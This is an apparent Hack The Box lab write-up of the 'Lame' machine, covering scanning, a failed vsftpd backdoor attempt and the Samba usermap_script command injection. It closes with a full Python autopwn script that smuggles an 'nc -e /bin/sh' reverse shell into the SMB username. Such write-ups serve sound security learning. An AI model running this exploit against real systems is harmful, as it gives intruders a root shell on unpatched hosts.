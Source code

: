 ```yaml
---
layout: default
title: Lame
permalink: /htb/lame
---
```


# Lame

> **Name:** Lame
>
> **Creator:** [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>
> **Difficulty:** Easy


## Intro

[Lame](https://www.hackthebox.eu/home/machines/profile/1) was released on 14 Mar 2017 and among the first boxes released on the platform. It is one of the easier linux boxes available, which makes it a good place to start for beginners. I originally completed this when it had already retired and I was making my way through some of the older boxes to help further my understanding. As it was so simple I never made notes so I've had to fully go back and re-do the box to make this write-up, whilst doing this I discovered there was more and one way to do it!


## Getting Started

As is always the case we start off with performing a full port scan against the box to  get an idea of what services are available. My preferred command is shown below:

``` nmap -p- 10.10.10.3 -sC -sV -oA full-scan ```

This command runs a SYN, or half-open scan against all ports. With the additional flags running default scripts, version detection and creating an output file in various formats. 

The scan gives the following results:

![Scan Results]({{site.url}}/assets/lame/scan-results.png)


## Basic Vulnerability Check

From here it is best to go through each service in turn, and check for any known vulnerabilities for the versions in use and for any interesting results from the nmap scripts that were run. Checking the service version in Searchsploit is a good way to quickly identify some vulnerabilities, but this is not always exhaustive and it is worth performing some searches on various sites to get more information. Straight away searchsploit delivers the goods with the first check against ftp.

![Searchsploit Results]({{site.url}}/assets/lame/vsftpd-searchsploit.png)

Nothing was found for ssh, but the Samba service also had an entry within searchsploit that looks promising. 

![Searchsploit Results]({{site.url}}/assets/lame/samba-searchsploit.png)

A final check for the distcc service also reveals another potential attack vector. I think this service may be a bit slow to start upon spawning the box as my initial nmap scan didn't identify the port as being open. Yet when I ran another later on it was there. 

![Searchsplot Results]({{site.url}}/assets/lame/distcc-searchsploit.png)

So from the an initial check of all the available services there are publcily available exploits for 3 of them! This is incredibly unusual for hackthebox. 


## Exploitation

With so many potential ways forward it is best to prioritise which one to start with. But since I've seen the vsftpd exploit previously it seems a good place to start, followed by Samba, and then finally distcc. Purely because distcc is something I am unfamiliar with. 

### FTP

The nmap scripts seen in the earlier results also show that anonymous access is enabled, so a quick connect and check for any files is performed.

![Anonymous FTP]({{site.url}}/assets/lame/ftp-anonymous.png)

No luck this time! It is all empty. So, onto the exploit. The Rapid7 page for this [exploit](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor) gives the following the description:

>This module exploits a malicious backdoor that was added to the VSFTPD download archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 according to the most recent information available. This backdoor was removed on July 3rd 2011.

Having a look at the ruby script is useful for figuring out how the exploit works. 

![VSFTPD Exploit]({{site.url}}/assets/lame/vsftpd-exploit.png)

The small excerpt from the msf module shows that a username ending in ```:)``` and password of random characters is sent and a service becomes available on port 6200. It isn't necessary to use the metasploit module to exploit this, you could login with a username ending in ```:)``` and a random password. Then use netcat to connect to the bindshell on port 6200. However, for an unknown reason the backdoor is not accessible in this instance. Best guess is that there are some firewall rules on the box that prevent 6200 from becoming externally available. 

This is the reason why it is important to have a quick check of all services first before diving in. As we already know that we have other potential avenues, rather than continuing to try and get this exploit to work.  

### Samba

Checking the Rapid7 site for this [exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script) gives the following description:

> This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

Checking the ruby script shows that it is as easy as sending a crafted username with a payload after it. 

![Samba Exploit]({{site.url}}/assets/lame/msf-script.png)

Amriunix gives a good explanation this vulnerability in a [blog post](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/). But essentially it is because unfiltered user input is being passed to /bin/sh as part of the username map script. 

First of all there needs to be a share we can connect to, so smbclient is used to get a list of available shares. 

![Shares]({{site.url}}/assets/lame/smb-shares.png)

You may have noticed an additional option in that command. On newer versions of SMBClient it is configured to prevent connection to older versions of SMB, so this setting just needs to be set so we can connect properly. Otherwise the connection will be terminated.

It is possible to null authenticate to the /tmp share and use the logon command to submit the crafted username to get a shell

![Exploit]({{site.url}}/assets/lame/smb-exploit.png)

Yay! Straight to root. Lets grab that flag. 

* * *

As a fun exercise I decided to make an autopwn exploit for this box. The basic part of running the exploit was straight forward, especially if you had a listener setup seperately. The trickier part was getting the listener running, exploit to run and the listener to accept the incoming connection. There are probably more refined ways to do this - but it works. The full script is shown below and is available on my [github](https://github.com/Agent-Tiro/HackTheBoxScripts/blob/master/lame-exploit.py). 

```
import argparse
from smb.SMBConnection import SMBConnection
from smb import smb_structs
import socket
import multiprocessing
import time

# Create a mini help file to show which flags are required
parser = argparse.ArgumentParser(description='Lame Exploit')
parser.add_argument('-l', required=True, type=str, help='Listener IP')
parser.add_argument('-p', required=True, type=int, help='Listener Port')
args = parser.parse_args()

# Set user args to variables for use later
host = args.l
port = args.p

# Create malicious username
username = '/=`nohup nc -e /bin/sh ' + host + ' ' + str(port) + '`'
password = 'hunter2'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Set up a listener
def listener():
    s.bind((host, port))
    s.listen(5)
    print('Listening on port: ' + str(port))

# Catch that shell
def cmd():
    client_socket, client_addr = s.accept()
    print(f'{client_addr[0]}:{client_addr[1]} Connected!')
    print('Whoop! Shell Time!\n')
    while True:
        command = input("")
        if command.lower() == 'exit':
            break
        command = command.encode()
        client_socket.send(command + b'\n')
        response = client_socket.recv(2048).decode()
        print(response)
    client_socket.close()
    print('Exiting')
    s.close()

# Create SMB Connection
def exploit():
    smb_structs.SUPPORT_SMB2 = False
    conn = SMBConnection(username, password, 'doesnotmatter', 'lame', use_ntlm_v2 = True)
    print('Launching exploit')
    conn.connect('10.10.10.3', 445)
    time.sleep(1)
    close()

# Launch this thing in multiprocessing
if __name__ == '__main__':
    p = multiprocessing.Process(name='p', target=listener)
    p1 = multiprocessing.Process(name='p1', target=exploit)
    p.start()
    time.sleep(1)
    p1.start()
    cmd()

```
